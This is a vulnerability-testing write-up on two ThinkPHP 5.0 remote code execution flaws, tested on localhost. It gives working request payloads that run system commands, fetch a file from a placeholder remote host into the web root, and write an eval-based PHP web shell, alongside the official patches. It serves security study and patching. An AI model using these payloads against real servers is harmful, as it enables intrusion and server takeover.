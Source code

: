 # ThinkPHP5.0 Vulnerability Testing

> Since ThinkPHP released the vulnerability patch, the server has been scanned countless times for vulnerabilities to capture zombies.
> Even though the official patch has been released, I still want to test the TP vulnerability and test two vulnerabilities.

## 1. Vulnerability for Execution in All Versions

```xml
<!-- GET -->
http://127.0.0.1/ThinkPHP/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
Due to the lack of explicit detection of the controller name and in the absence of enabling forced routing, phpinfo() can be executed directly. If the server does not restrict the execution of functions such as shell, shell escalation can be executed directly.

![](screenshots/2023-04-14-20-50-36.png)

For a detailed process of the vulnerability execution, refer to [Vulnerability Execution Process](https://www.cnblogs.com/st404/p/10245844.html)

##### Official Patch
Add regular expressions to limit the controller name
```php
/* /thinkphp/library/think/App.php line 555 add */
if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
     throw new HttpException(404, 'controller not exists:' . $controller);
}
```

## 2. _method Vulnerability

```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter[]=system&method=GET&get[]=dir
```
_Trigger condition_

```php
//Config.php
'var_method'             => '_method'
```

Use the `$_POST['_method']` variable to pass the actual request method. When `$_POST['_method']=__construct`, the method of the Request class will override the class variables using the filter variable and execute any command when internal parameter filtering is performed.

![](screenshots/2023-04-14-20-50-45.png)

This can directly upload a PHP file test.php
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&fileDown=copy("http://xxx/1.txt","test.php")
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=assert&method=get&server[REQUEST_METHOD]=fileDown
```
Generate a web shell
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&T=echo+^<?php+phpinfo();eval($_POST[cmd]);?^>+>>info.php
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=123
```

In config.php, the _method can be set as the other characters, or upgrade TP

##### Official Patch
The official patch limits the suspicious request methods set by _method and unsets it after processing _method, preventing the further use of __construct for variable overrides

```php
/* thinkphp/library/think/Request.php */
public function method($method = false)
{
    if (true === $method) {
        // Get the original request type
        return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
    } elseif (!$this->method) {
        if (isset($_POST[Config::get('var_method')])) {
            $method = strtoupper($_POST[Config::get('var_method')]);
            if (in_array($method, ['GET', 'POST', 'DELETE', 'PUT', 'PATCH'])) {
                $this->method = $method;
                $this->{$this->method}($_POST);
            } else {
                $this->method = 'POST';
            }
            unset($_POST[Config::get('var_method')]); //unset
        } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
            $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
        } else {
            $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        }
    }
    return $this->method;
}
```

> References:
> https://www.cnblogs.com/st404/p/10245844.html
> https://mrxn.net/Infiltration/618.html
> https://www.cnblogs.com/nul1/p/11863574.html
> https://www.vulnbug.com/amp/thkphp5x-code-execution-vulnerabilities-and-bypass.html
> https://www.freebuf.com/vuls/194127.html